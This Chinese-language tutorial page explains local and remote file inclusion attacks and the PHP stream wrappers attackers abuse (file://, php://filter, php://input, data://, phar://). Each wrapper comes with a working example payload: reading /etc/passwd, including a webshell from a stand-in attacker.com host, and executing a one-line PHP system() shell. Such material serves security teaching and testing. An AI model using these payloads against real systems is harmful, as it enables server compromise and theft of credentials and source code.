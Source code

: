 ### 常用的协议有哪些

**本地文件包含（LFI）协议**

本地文件包含通常利用的是 Web 应用对用户输入的文件路径缺乏严格过滤，导致攻击者能够包含服务器上的任意文件

**1. `file://` 协议**

这是最基础、最常见的文件包含协议。它允许你直接引用本地文件系统中的文件

- **用途**：读取服务器上的任意文件，如 `/etc/passwd`（Linux）或 `C:\Windows\win.ini`（Windows）
- **示例**：`http://example.com/vuln.php?file=file:///etc/passwd`
- **特点**：如果 Web 应用没有对路径进行充分过滤，攻击者可以利用 `../` 来遍历目录，从而访问到 Web 根目录以外的敏感文件

**远程文件包含（RFI）协议**

远程文件包含通常出现在 PHP 中，当 `allow_url_include` 和 `allow_url_fopen` 配置都开启时，Web 应用可以包含远程服务器上的文件

**1. `http://` 或 `https://` 协议**

这是最常见的远程文件包含方式，攻击者可以利用它来包含一个位于自己服务器上的恶意文件，从而在目标服务器上执行代码

- **用途**：在 Web 服务器上执行远程主机上的脚本，通常用于获取Webshell
- **示例**：`http://example.com/vuln.php?file=http://attacker.com/shell.txt`
- **特点**：`shell.txt`文件内容通常是一段Webshell代码，如`<?php system($_GET['cmd']); ?>`

**攻击者利用的伪协议（Pseudo Protocols）**

这些协议不是为了包含文件而设计的，但攻击者可以利用它们来读取文件内容、执行代码或绕过 WAF

**1. `php://filter`**

这是一个非常强大的伪协议，它允许你对包含的文件内容进行过滤操作，比如编码或解码。最常见的用法是读取 PHP 文件的源码，因为源码中可能包含数据库凭证等敏感信息

- **用途**：读取本地文件的源码，绕过 Web 应用对 `php` 文件执行的限制
- **示例**：`http://example.com/vuln.php?file=php://filter/read=convert.base64-encode/resource=index.php`
- **特点**：通过 Base64 编码，即使服务器对 `.php` 文件进行了执行处理，我们也能以明文形式获取其源码

**2. `php://input`**

这个协议可以让我们直接从 POST 请求的请求体中读取数据，并作为文件内容进行执行。当文件包含漏洞的参数无法直接在 URL 中写入恶意代码时，这是一个非常有用的绕过方法

- **用途**：通过 POST 请求发送恶意代码并执行
- **示例**：在 POST 请求中，发送数据`<?php system($_GET['cmd']); ?>`，同时访问`http://example.com/vuln.php?file=php://input`
- **特点**：常用于绕过 WAF 对 URL 中特定字符串的检测

**3. `data://`**

这个协议可以让我们在 URL 中直接嵌入数据，并作为文件内容执行。这在某些情况下可以绕过一些过滤规则，因为它不依赖于外部文件

- **用途**：在 URL 中直接执行恶意代码
- **示例**：`http://example.com/vuln.php?file=data://text/plain,<?php%20system('id');%20?>`
- **特点**：如果 Web 应用对 URL 中的特殊字符进行过滤，这种方式可能会失效

**4. `phar://`**

这个协议常用于反序列化攻击，尤其是在 PHAR 归档文件中。攻击者可以创建一个恶意的 PHAR 文件，并在其中嵌入恶意代码或反序列化对象，当服务器通过文件包含加载这个文件时，就会触发反序列化操作

- **用途**：利用 PHP 反序列化漏洞，执行任意命令
- **示例**：`http://example.com/vuln.php?file=phar:///path/to/archive.phar`
- **特点**：这种攻击方式通常需要配合一个反序列化漏洞才能成功